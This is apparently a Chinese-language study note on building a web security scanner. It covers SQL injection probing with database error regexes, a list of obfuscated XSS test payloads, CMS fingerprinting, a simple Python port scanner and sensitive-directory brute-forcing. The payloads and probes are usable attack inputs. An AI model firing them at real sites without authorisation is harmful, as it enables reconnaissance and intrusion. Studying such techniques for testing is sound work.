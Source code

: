 
---
title: "0.md"
date: 2019-09-29 19:29:06 +0800
lastmod: 2020-06-22 14:47:41 +0800
draft: false
tags: [""]
categories: [""]
author: "Claymore"

---
---
title: "0.md"
date: 2019-09-29 19:29:06 +0800
lastmod: 2019-09-29 19:29:06 +0800
draft: true
tags: [""]
categories: [""]
author: "Claymore"

---
学习参考：<https://www.shiyanlou.com/courses/761>

记录一些检测web攻击的思路



### sql注入检查

request 库。

通过在url 后面加上 `AND %d=%d` 或者 `OR NOT (%d>%d)`

拼接url，输出用正则匹：

```
"MySQL": (r"SQL syntax.*MySQL", r"Warning.*mysql_.*", r"valid MySQL result", r"MySqlClient\."),
    "PostgreSQL": (r"PostgreSQL.*ERROR", r"Warning.*\Wpg_.*", r"valid PostgreSQL result", r"Npgsql\."),
    "Microsoft SQL Server": (r"Driver.* SQL[\-\_\ ]*Server", r"OLE DB.* SQL Server", r"(\W|\A)SQL Server.*Driver", r"Warning.*mssql_.*", r"(\W|\A)SQL Server.*[0-9a-fA-F]{8}", r"(?s)Exception.*\WSystem\.Data\.SqlClient\.", r"(?s)Exception.*\WRoadhouse\.Cms\."),
    "Microsoft Access": (r"Microsoft Access Driver", r"JET Database Engine", r"Access Database Engine"),
    "Oracle": (r"\bORA-[0-9][0-9][0-9][0-9]", r"Oracle error", r"Oracle.*Driver", r"Warning.*\Woci_.*", r"Warning.*\Wora_.*"),
    "IBM DB2": (r"CLI Driver.*DB2", r"DB2 SQL error", r"\bdb2_\w+\("),
    "SQLite": (r"SQLite/JDBCDriver", r"SQLite.Exception", r"System.Data.SQLite.SQLiteException", r"Warning.*sqlite_.*", r"Warning.*SQLite3::", r"\[SQLITE_ERROR\]"),
    "Sybase": (r"(?i)Warning.*sybase.*", r"Sybase message", r"Sybase.*Server message.*"),
```



### 收集E-mail

在页面上搜索各种链接：如a标签，herf属性，收集 后，也是用正则匹配：`([\w-]+@[\w-]+\.[\w-]+)+`



### XSS检测

通过一些xss的payload加入到url参数中，然后查找url的源码中是否存在这个参数，

playload:

```
</script>"><script>prompt(1)</script>
</ScRiPt>"><ScRiPt>prompt(1)</ScRiPt>
"><img src=x onerror=prompt(1)>
"><svg/onload=prompt(1)>
"><iframe/src=javascript:prompt(1)>
"><h1 onclick=prompt(1)>Clickme</h1>
"><a href=javascript:prompt(1)>Clickme</a>
"><a href="javascript:confirm%28 1%29">Clickme</a>
"><a href="data:text/html;base64,PHN2Zy9vbmxvYWQ9YWxlcnQoMik+">click</a>
"><textarea autofocus onfocus=prompt(1)>
"><a/href=javascript&colon;co\u006efir\u006d&#40;&quot;1&quot;&#41;>clickme</a>
"><script>co\u006efir\u006d`1`</script>
"><ScRiPt>co\u006efir\u006d`1`</ScRiPt>
"><img src=x onerror=co\u006efir\u006d`1`>
"><svg/onload=co\u006efir\u006d`1`>
"><iframe/src=javascript:co\u006efir\u006d%28 1%29>
"><h1 onclick=co\u006efir\u006d(1)>Clickme</h1>
"><a href=javascript:prompt%28 1%29>Clickme</a>
"><a href="javascript:co\u006efir\u006d%28 1%29">Clickme</a>
"><textarea autofocus onfocus=co\u006efir\u006d(1)>
"><details/ontoggle=co\u006efir\u006d`1`>clickmeonchrome
"><p/id=1%0Aonmousemove%0A=%0Aconfirm`1`>hoveme
"><img/src=x%0Aonerror=prompt`1`>
"><iframe srcdoc="&lt;img src&equals;x:x onerror&equals;alert&lpar;1&rpar;&gt;">
"><h1/ondrag=co\u006efir\u006d`1`)>DragMe</h1>
```





### webshell

Webshell是web入侵的脚本攻击工具，简单的说来，webshell就是一个asp或php木马后门，黑客在入侵了一个网站后，常常在将这些asp或php木马后门文件放置在网站服务器的web目录中，与正常的网页文件混在一起。

一般是通过http的put方式去放入。



### CMS

CMS英文全称是：Content Management System 中文名称是： 网站内容管理系统 CMS识别原理

就是得到一些CMS的一些固有特征，通过得到这个特征来判断CMS的类别。
这里我们使用MD5识别和正则表达式识别的方式，就是用特定的文件路径访问网站，获得这个文件的MD5或者用正则表达式匹配某个关键词，如果匹配成功就说明这个是这个CMS。
所以，这个识别的成功率是根据我们的字典来的：

```
{
    "url": "/tpl/green/common/images/notebg.jpg",
    "re": "",
    "name": "自动发卡平台",
    "md5": "690f337298c331f217c0407cc11620e9"
},
{
    "url": "/images/download.png",
    "re": "",
    "name": "全程oa",
    "md5": "9921660baaf9e0b3b747266eb5af880f"
}
```

可看这里有一些特征表现。



#### web指纹

web指纹识别的核心原理是通过正则表达式匹配特征码或匹配文件的md5值等特殊信息，进而识别web应用程序的名称和版本，收集信息。

开拓思路可以使用模糊hash来搞。这里和的指纹在上方的字典中有体现。



### 端口扫描

TCP端口扫描一般分为以下几种类型：

1. TCP connect扫描：也称为全连接扫描，这种方式直接连接到目标端口，完成了TCP三次握手的过程，这种方式扫描结果比较准确，但速度比较慢而且可轻易被目标系统检测到。
2. TCP SYN扫描：也称为半开放扫描，这种方式将发送一个SYN包，启动一个TCP会话，并等待目标响应数据包。如果收到的是一个RST包，则表明端口是关闭的，而如果收到的是一个SYN/ACK包，则表示相应的端口是打开的。
3. Tcp FIN扫描：这种方式发送一个表示拆除一个活动的TCP连接的FIN包，让对方关闭连接。如果收到了一个RST包，则表明相应的端口是关闭的。
4. TCP XMAS扫描：这种方式通过发送PSH、FIN、URG、和TCP标志位被设为1的数据包。如果收到了一个RST包，则表明相应的端口是关闭的。

```python
 s = socket.socket(socket.AF_INET,socket.SOCK_STREAM) 
 s.settimeout(1) 
 try:
 	s.connect((self.ip, port))
    print "%s:%s OPEN [%s]"%(self.ip,port,self.PORT[port])
 except:
    print "%s:%s Close"%(self.ip,port)
 finally:
    s.close()
```



对应端口服务：

```
{80:"web",8080:"web",3311:"kangle",3312:"kangle",3389:"mstsc",4440:"rundeck",5672:"rabbitMQ",5900:"vnc",6082:"varnish",7001:"weblogic",8161:"activeMQ",8649:"ganglia",9000:"fastcgi",9090:"ibm",9200:"elasticsearch",9300:"elasticsearch",9999:"amg",10050:"zabbix",11211:"memcache",27017:"mongodb",28017:"mondodb",3777:"dahua jiankong",50000:"sap netweaver",50060:"hadoop",50070:"hadoop",21:"ftp",22:"ssh",23:"telnet",25:"smtp",53:"dns",123:"ntp",161:"snmp",8161:"snmp",162:"snmp",389:"ldap",443:"ssl",512:"rlogin",513:"rlogin",873:"rsync",1433:"mssql",1080:"socks",1521:"oracle",1900:"bes",2049:"nfs",2601:"zebra",2604:"zebra",2082:"cpanle",2083:"cpanle",3128:"squid",3312:"squid",3306:"mysql",4899:"radmin",8834:'nessus',4848:'glashfish'}
```



### 敏感目录爆破

就是在url路径后添加一些路径，看http返回的状态码，如果200则证明存在，一些敏感路径：

```
/database
/db
/dbase
/devel
/files
/forum
/programs
/set
/setting
/sources
/Stats
/usage
/weblog
/weblogs
...
```



### CDN 检测

CDN的全称是Content Delivery Network，即内容分发网络。其基本思路是尽可能避开互联网上有可能影响数据传输速度和稳定性的瓶颈和环节，使内容传输的更快、更稳定。通过在网络各处放置节点服务器所构成的在现有的互联网基础之上的一层智能虚拟网络，CDN系统能够实时地根据网络流量和各节点的连接、负载状况以及到用户的距离和响应时间等综合信息将用户的请求重新导向离用户最近的服务节点上。其目的是使用户可就近取得所需内容，解决 Internet网络拥挤的状况，提高用户访问网站的响应速度。

如何检测？

我们用各地的服务器测试这个网站，如果各地得到的是不同的IP，则说明网站用了CDN。